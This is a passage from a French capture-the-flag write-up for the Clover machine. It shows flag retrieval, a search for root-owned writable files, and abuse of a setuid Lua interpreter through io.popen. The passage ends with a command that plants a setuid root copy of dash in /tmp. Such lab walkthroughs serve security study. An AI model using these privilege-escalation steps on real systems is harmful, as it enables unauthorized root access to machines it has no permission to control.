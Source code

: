 ```shellsession
sword@Clover:~$ cat local2.txt 





     /\
    // \
    || |
    || |
    || |      Sword PWN!
    || |
    || |
    || |
 __ || | __
/___||_|___\
     ww
     MM
    _MM_
   (&<>&)
    ~~~~




e63a186943f8c1258cd1afde7722fbb4
```

On peut relancer `LinPEAS` ou fouiller par nous même les fichiers appartenant à root et qui sont écrivables :

```shellsession
sword@Clover:~$ find / -type f -writable -user root 2> /dev/null | grep -v /proc | grep -v /sys
/usr/games/clover/deamon.sh
```

Si `LinPEAS` n'a pas remarqué le fichier précédemment c'est parce que le dossier où il se trouve n'est accessible que par l'utilisateur `sword`.

Il s'avère que le fichier `daemon.sh` est un binaire ELF et dispose du bit setuid root. Ce serait donc domage de l'écraser (il perdrait le bit setuid).

A l'exécution on découvre aussi qu'il s'agit de l'interpréteur Lua. J'ai repris la technique d'exécution que j'avais croisé sur [le CTF Nebula ](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Nebula%20(levels%2012%20%C3%A0%2019).md).

```shellsession
sword@Clover:~$ /usr/games/clover/deamon.sh
Lua 5.2.3  Copyright (C) 1994-2013 Lua.org, PUC-Rio
> prog = io.popen("id")
> data = prog:read("*all")
> prog:close()
> print(data)
uid=1001(sword) gid=1001(sword) euid=0(root) groups=1001(sword)

> prog = io.popen("cp /bin/dash /tmp/shell;chown root:root /tmp/shell;chmod 4755 /tmp/shell")
```
